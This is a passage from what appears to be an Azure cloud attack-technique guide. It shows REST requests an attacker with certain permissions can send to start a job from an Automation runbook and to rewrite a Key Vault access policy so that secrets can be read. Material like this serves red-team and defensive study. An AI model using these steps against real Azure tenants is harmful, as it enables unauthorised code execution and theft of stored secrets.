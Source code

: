 **Note**: There are also CLI commands to create runbooks, but currently those commands require different permissions.  

**Create Job for RunBook**  
After creating the runbook, the attacker must create a job from the runbook.  

```
PUT https://management.azure.com/subscriptions/{subscriptionId}/resourceGroups/{resourceGroupName}/providers/Microsoft.Automation/automationAccounts/{automationAccountName}/jobs/{jobName}?api-version=2017-05-15-preview{
   "properties": {
      "runbook": {
         "name": "TestRunbook"
      },
      "parameters": {
         "key01": "value01",
         "key02": "value02"
      },
      "runOn": ""
   }
}
```

#### Azure Key Vault
--> Modifying Key Vault policy.  

Require the following permission:  
- *Microsoft.KeyVault/vaults/accessPolicies/write*

This permission allows the attacker to create a new policy for the desired key vault using the following Rest API:  
```
PUT https://management.azure.com/subscriptions/{subscriptionId}/resourceGroups/{resourceGroupName}/providers/Microsoft.KeyVault/vaults/{vaultName}/accessPolicies/{operationKind}?api-version=2019-09-01{   
   "properties": {     
      "accessPolicies": [       
      {         
         "tenantId": "00000000-0000-0000-0000-000000000000",                  
         "objectId": "00000000-0000-0000-0000-000000000000",          
         "permissions": {           
            "keys": [             
               "encrypt"           
            ],           
            "secrets": [             
               "get"           
            ]         
         }       
      }]
   }   
}

```
